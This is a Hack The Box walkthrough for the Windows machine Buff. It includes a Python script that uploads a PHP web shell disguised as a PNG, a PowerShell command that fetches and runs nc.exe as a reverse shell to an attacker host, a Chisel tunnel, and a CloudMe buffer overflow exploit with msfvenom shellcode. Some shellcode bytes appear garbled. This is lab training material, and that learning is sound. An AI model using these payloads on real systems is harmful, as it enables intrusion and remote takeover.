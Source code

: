 
# HTB Buff Walkthrough

## Overview
Buff is a Windows machine with an easy difficulty level, running Gym Management System 1.0, which has an unauthenticated remote code execution vulnerability. After scanning the internal network, a service is discovered on port 8888. The installation file for this service is found on the disk, enabling local debugging. By setting up port forwarding, we can access the service remotely and exploit the vulnerability.

## Enumeration

```bash
nmap -sC -sV 10.10.10.198 -oA nmap -Pn
```

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

Visiting the site, I found out that it is using Gym Management Software 1.0, which suffers from an unauthenticated file upload vulnerability that can lead to Remote Code Execution (RCE).

From the website of Gym Management Software, we can download the source code and check for the `upload.php`.

## Exploitation

Using a simple Python script, we can upload a shell.

### Python Script:

```python
#!/usr/bin/env python3
import requests

def Main():
    url = "http://10.10.10.198:8080/upload.php?id=test"
    s = requests.Session()
    s.get(url, verify=False)

    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png = {
        'file': (
            'test.php.png',
            PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>',
            'image/png',
            {'Content-Disposition': 'form-data'}
        )
    }

    data = {'pupload': 'upload'}
    
    # Send the POST request to upload the file
    r = s.post(url=url, files=png, data=data, verify=False)
    print("Uploaded!")

if __name__ == "__main__":
    Main()
```

### Code Explanation

1. **Purpose of the Script:**
   The script is designed to exploit a file upload vulnerability on a web application running on `http://10.10.10.198:8080/upload.php`. It uploads a web shell disguised as a PNG image, allowing the attacker to execute commands remotely via the `cmd` parameter in the web shell.

2. **Key Components:**

   - **PNG_magicBytes:**
     PNG files start with specific magic bytes to indicate that they are valid PNG files. This script includes these bytes (`\x89\x50\x4e\x47\x0d\x0a\x1a`) at the start of the uploaded file to fool the application into thinking the file is a real PNG image.

   - **Web Shell Content:**
     The PHP code in the file being uploaded:
     ```php
     <?php echo shell_exec($_GET["cmd"]); ?>
     ```
     This code executes any command provided through the `cmd` parameter in the URL. For example:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=whoami
     ```
     would execute the `whoami` command on the server.

   - **Upload Request:**
     The script creates a fake "image" with the required PNG magic bytes and the PHP web shell:
     ```python
     PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>'
     ```
     The file is sent to the server using a POST request:
     ```python
     r = s.post(url=url, files=png, data=data, verify=False)
     ```

   - **Accessing the Web Shell:**
     Once uploaded, the web shell will be available at:
     ```
     http://10.10.10.198:8080/upload/test.php
     ```
     Commands can be executed by appending them as the `cmd` parameter:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=<COMMAND>
     ```

     Use Burp Suite to execute this (URL encode):
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=Powershell Invoke-WebRequest -Uri http://10.10.14.6:80/nc.exe -Outfile /users/public/nc.exe
     ```

     Execute the `nc.exe`:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=/users/public/nc.exe 10.10.14.6 9000 -e cmd.exe
     ```

## Privilege Escalation

The server is communicating with port 8888.

1. **Use Chisel to tunnel communication into the attacker's machine:**

   - [Chisel GitHub](https://github.com/jpillora/chisel)
   
   Upload `chisel.exe` to the victim's machine.

2. **Setup a listening server on the attacker's machine:**

   ```bash
   ./chisel server -p 9999 --reverse
   ```

3. **Listen to the server on the victim's side:**

   ```bash
   chisel.exe client 10.10.14.6:9999 R:8888:127.0.0.1:888
   ```

Once the tunnel is created, craft the buffer overflow exploit.

### Install ExploitDB:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Search for the exploit:

```bash
searchsploit cloudme
```

Found: `CloudMe 1.11.2 - Buffer Overflow (PoC)`  
Location: `windows/remote/48389.py`

```bash
└──╼ [★]$ find / 2>/dev/null | grep 48389.py
/usr/share/exploitdb/exploits/windows/remote/48389.py
```

Copy to `HTB/Buff`:

```bash
cp /usr/share/exploitdb/exploits/windows/remote/48389.py ~/HTB/Buff/exploit.py
```

Now, craft the payload using `msfvenom`:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
```

Put the payload in `exploit.py`:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

import socket
target = "127.0.0.1"
padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30
buf =  b""
buf += b"\xdb\xd7\xd9\x74\x24xf4\xbd\x8e\xc1\x90\xf2\x58"
buf += b"\x31xc9\xb1\x52\x31\x68\x17\x03\x68\x17\x83\x4e"
buf += b"\xc5\x72\x07\xb2\x2e\xf0\xe8\x4a\xaf\x95\x61\xaf"
# More shellcode here...
payload = buf
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

### Setup a Listener on Port 9001
```bash
nc -lnvp 9001
```

### Run the exploit:

```bash
python exploit.py
```
